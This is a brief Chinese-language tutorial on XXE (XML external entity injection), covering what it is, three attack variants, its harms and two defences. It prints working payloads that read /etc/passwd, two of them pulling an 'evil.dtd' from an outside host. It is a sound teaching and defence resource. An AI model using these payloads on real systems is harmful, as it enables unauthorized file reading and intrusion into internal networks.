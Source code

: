 ## XXE是什么？攻击方法？危害？防御方法？
#### XXE是什么？
先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
```
<?xml version="1.0"?>
<!DOCTYPE test [
	<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
	<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;&copyright;</author>
```
xxe也就是xml外部实体注入。
#### XXE攻击方法
a. 直接通过DTD外部实体声明
```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>
```
b. 通过DTD文档引入外部DTD文档，再引入外部实体声明

XML内容：
```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
<c>&b;</c>
```
DTD文件内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
c. 通过DTD外部实体声明引入外部实体声明

XML内容：
```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
	%d;
]>
<c>&b;</c>
```
DTD文件内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
#### XXE危害
```
a. 任意文件读取
b. 执行系统命令
c. 探测内网端口
d. 攻击内网
```
#### XXE防御方法
```
a. 禁用外部实体声明
b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）
```


